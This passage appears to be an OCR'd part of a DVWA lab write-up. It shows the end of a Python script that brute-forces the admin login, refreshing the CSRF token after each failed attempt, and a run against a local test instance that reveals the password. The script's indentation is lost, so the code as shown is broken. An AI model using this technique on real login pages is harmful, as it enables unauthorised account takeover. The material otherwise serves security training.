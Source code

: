 	# strip whitespace
	password = password.strip()
	
	# setup the payload
	payload = {'username': 'admin', 'password': password, 'Login': 'Login', 'user_token': csrf_token}
	r = s.get(url, cookies=cookie, params=payload)
	success = checkSuccess(r.text)

	if not success:
	# if it failed the CSRF token will be changed. Get the new one
	soup = Soup(r.text, features="lxml")
	csrf_token = soup.findAll(attrs={"name": "user_token"})[0].get('value')
	else:
	# Success! Show the result
	print('Password is: ' + password)
	break

	# We failed, bummer. 
	if not success:
	print('Brute force failed. No matches found.')
	```

	```shell
	# running python script
	python3 csrf_script.py passwords.txt "Welcome to the password protected area admin"
	DVWA URLhttp://127.0.0.1:42001/vulnerabilities/brute/index.php
	CSRF Token=09377057fe6a3b73fe3eb82c6ecce061
	Running brute force attack...
	Password is: password
	```


